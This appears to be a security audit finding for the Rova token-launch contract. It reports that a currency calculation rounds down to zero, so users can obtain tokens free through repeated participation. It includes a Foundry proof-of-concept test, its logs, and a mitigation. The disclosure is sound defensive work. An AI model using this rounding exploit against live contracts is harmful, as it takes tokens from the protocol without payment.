 Clean Malachite Oyster

High

# Users can acquire token amounts without payment

### Summary


When the protocol lists a `launch` with a `launchGroup` that finalizes at participation, users can participate multiple times as long as their total token purchase amount is below the launch group `maxTokenAmountPerUser`.
Currently, a user can repeatedly participate in a `launchGroup` and accumulate tokens without paying any currency to the protocol. 

### Root Cause

If specific conditions are met, `_calculateCurrencyAmount` rounds down to 0, meaning the contract does not charge the user for the purchased tokens.

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L265


https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L597

### Internal Pre-conditions

* `minTokenAmountPerUser < 1 token` 
* `tokenPriceBps` is set to very small value. In the provided PoC, `1 BPS` (0.000001 USDC) is used, which is a possible token price. For example, at the time of writing, 1 PEPE token costs approximately  0.0000096 USD despite having a $4 billion market cap.

### External Pre-conditions

* The backend must generate valid participation signatures. We assume that the backend always approves requests for KYC-verified users when their parameters fall within valid ranges.

### Attack Path

1. The user requests valid signatures from the backend.
2. They participate multiple times in the `launchGroup`, each time requesting a token amount that causes `_calculateCurrencyAmount` to round down to 0.
3. The user accumulates tokens without spending any currency (except gas fees).
4. This can continue until they reach `maxTokenAmountPerUser`.

### Impact

Users can acquire token amounts for free.

### PoC

In the provided PoC:
* `tokenPriceBps = 1`
*  `minTokenAmountPerUser = 0.5e18`
* `maxTokenAmountPerUser = 5000e18`
The user repeatedly requests `tokenAmount = 1e18 - 1`, which results in `currenctAmount` rounding down to 0.
Paste the following test in `Launch.Participate.t.sol`:
```solidity
        function test_accTokensForFree() public {
        CurrencyConfig memory currencyConfig =
            CurrencyConfig({tokenPriceBps: 1, isEnabled: true});

        LaunchGroupSettings memory settings = LaunchGroupSettings({
            finalizesAtParticipation: true,
            startsAt: block.timestamp,
            endsAt: block.timestamp + 1 days,
            maxTokenAllocation: 10000 * 10 ** launch.tokenDecimals(),
            minTokenAmountPerUser: 0.5e18,
            maxTokenAmountPerUser: 5000 * 10 ** launch.tokenDecimals(),
            status: LaunchGroupStatus.ACTIVE
        });


        vm.startPrank(manager);
        launch.createLaunchGroup(testLaunchGroupId, address(currency), currencyConfig, settings);
        vm.stopPrank();
        
        console.log("Currency balance before : ", currency.balanceOf(user1));
        for (uint256 i; i < 5000; i++) {
            uint256 tokenAmount = 1e18;
            ParticipationRequest memory request = ParticipationRequest({
                chainId: block.chainid,
                launchId: testLaunchId,
                launchGroupId: testLaunchGroupId,
                launchParticipationId: bytes32(uint256(i)),
                userId: testUserId,
                userAddress: user1,
                tokenAmount: tokenAmount - 1,
                currency: address(currency),
                requestExpiresAt: block.timestamp + 1 hours
            });

            bytes memory signature = _signRequest(abi.encode(request));

            vm.startPrank(user1);
            // currency.approve(address(launch), 1e8);
            launch.participate(request, signature);
            vm.stopPrank();
        }
        console.log("User tokens by launchGroup: ", launch.getUserTokensByLaunchGroup(testLaunchGroupId, testUserId));
        console.log("Currency balance after  : ", currency.balanceOf(user1));
    }
```

Logs: 
```solidity
[PASS] test_accTokensForFree() (gas: 616432897)
Logs:
  Currency balance before :  2000000000000000000000
  User tokens by launchGroup:  4999999999999999995000
  Currency balance after  :  2000000000000000000000
```

As seen from the test results, the user accumulated ~5000 tokens for free without spending any currency.


### Mitigation

It is recommended to ensure that `currencyAmount` is always greater than 0.